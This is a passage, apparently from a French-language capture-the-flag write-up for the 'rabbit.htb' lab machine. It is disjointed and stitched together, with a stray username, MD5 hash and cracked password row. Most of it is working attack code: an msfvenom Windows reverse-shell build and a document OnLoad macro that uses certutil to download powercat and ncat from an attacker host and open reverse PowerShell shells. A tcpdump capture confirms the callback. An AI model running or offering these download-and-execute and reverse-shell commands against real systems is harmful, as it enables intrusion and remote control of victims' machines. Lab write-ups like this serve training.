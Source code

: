 ```


cp ../../../tools/nc64.exe nc.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f exe > shell2.exe
mv shell2.exe plink443.exe

| Ariel    | b9c2538d92362e0e18e52d0ee9ca0c6f (pussycatdolls)



    Sub OnLoad
      Shell("cmd.exe /C ping -n 2 10.10.14.3")
      Shell("cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.14.3/powercat.ps1"" c:\wamp64\www\powercat.ps1 & c:\wamp64\www\powercat.ps1 -c 10.10.14.3 -p 443 -e powershell.exe")
      Shell("cmd.exe /C ping -n 3 10.10.14.3")
      Shell("cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.14.3/ncat.exe"" c:\wamp64\www\ncat.exe & c:\wamp64\www\ncat.exe 10.10.14.3 443 -e powershell.exe")
      Shell("cmd.exe /C ping -n 2 10.10.14.3")
      Shell("cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.14.3/ncat.exe"" C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe 10.10.14.3 443 -e powershell.exe")
      Shell("cmd.exe /C ping -n 3 10.10.14.3")
      Shell("cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.14.3/ncat.exe"" C:\Users\Public\ncat.exe & C:\Users\Public\ncat.exe 10.10.14.3 443 -e powershell.exe")
    End Sub


Après reboot du serveur, ca passe du 1er coup.
Au final, j'arrive à pinger, télécharger un programme, et un de ces 4 est passé :)

```
#  tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes



21:55:08.821337 IP rabbit.htb > kali: ICMP echo request, id 1, seq 1, length 40
21:55:08.821369 IP kali > rabbit.htb: ICMP echo reply, id 1, seq 1, length 40
21:55:08.821392 IP rabbit.htb > kali: ICMP echo request, id 1, seq 2, length 40
21:55:08.821401 IP kali > rabbit.htb: ICMP echo reply, id 1, seq 2, length 40
21:55:08.821420 IP rabbit.htb > kali: ICMP echo request, id 1, seq 3, length 40
21:55:08.821427 IP kali > rabbit.htb: ICMP echo reply, id 1, seq 3, length 40
21:55:08.821502 IP rabbit.htb > kali: ICMP echo request, id 1, seq 4, length 40
21:55:08.821512 IP kali > rabbit.htb: ICMP echo reply, id 1, seq 4, length 40
21:55:09.834982 IP rabbit.htb > kali: ICMP echo request, id 1, seq 5, length 40
21:55:09.835005 IP kali > rabbit.htb: ICMP echo reply, id 1, seq 5, length 40
21:55:09.835023 IP rabbit.htb > kali: ICMP echo request, id 1, seq 6, length 40
21:55:09.835029 IP kali > rabbit.htb: ICMP echo reply, id 1, seq 6, length 40


^C
12 packets captured
12 packets received by filter
0 packets dropped by kernel

